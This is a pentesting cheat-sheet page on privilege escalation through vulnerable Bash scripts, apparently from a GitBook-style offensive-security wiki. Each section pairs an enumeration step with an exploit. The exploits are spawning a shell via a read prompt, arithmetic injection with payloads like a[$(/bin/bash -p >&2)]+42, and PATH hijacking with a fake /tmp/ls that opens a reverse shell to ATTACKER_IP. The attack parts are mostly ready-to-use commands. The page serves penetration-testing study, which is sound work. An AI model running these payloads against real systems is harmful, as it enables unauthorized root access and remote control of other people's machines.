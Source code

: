 # Bash

## Theory

Bash scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, bash scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}

### Bash eq

{% tabs %}
{% tab title="Enumerate" %}
If a bash script use the `-eq` comaparison, it's vulnerable to arbitrary command execution.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```
{% endtab %}

{% tab title="Exploit" %}
To execute arbitrary command, answer this question as below. We have to Inject arbitrary command before the correct number (42).

```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/bin/bash -p >&2)]+42

#Or execute your own malicious script
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/tmp/shell.elf)]+42
```

{% hint style="info" %}
`a[$(/tmp/shell.elf)]` will allow us, by evaluating the content of the array, to execute our script
{% endhint %}
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

```bash
$ cat /usr/bin/vuln-suid-script.sh

#!/bin/bash
ls /root/var/file
```
{% endtab %}

{% tab title="Exploit" %}
We can generate a malicious file in the `/tmp` folder named as the command called without full path

```bash
#Generate a payload
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" > /tmp/ls
chmod +x /tmp/ls

#Change Path env variable and execute the script
export PATH=/tmp:$PATH
/usr/bin/vuln-suid-script.sh
```
{% endtab %}
{% endtabs %}

### Unquoted Expression Injection
